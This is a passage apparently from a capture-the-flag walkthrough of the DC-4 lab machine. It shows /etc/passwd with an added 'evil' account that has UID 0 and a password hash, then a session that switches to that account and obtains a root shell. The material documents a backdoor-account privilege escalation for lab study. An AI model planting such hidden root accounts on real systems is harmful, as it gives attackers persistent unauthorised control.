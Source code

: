 ```bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
Debian-exim:x:108:112::/var/spool/exim4:/bin/false
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

We can switch to the Evil user and gain a shell with root privileges.

```bash
charles@dc-4:/home/jim$ su evil
Password:
root@dc-4:/home/jim# id
uid=0(root) gid=0(root) groups=0(root)

```
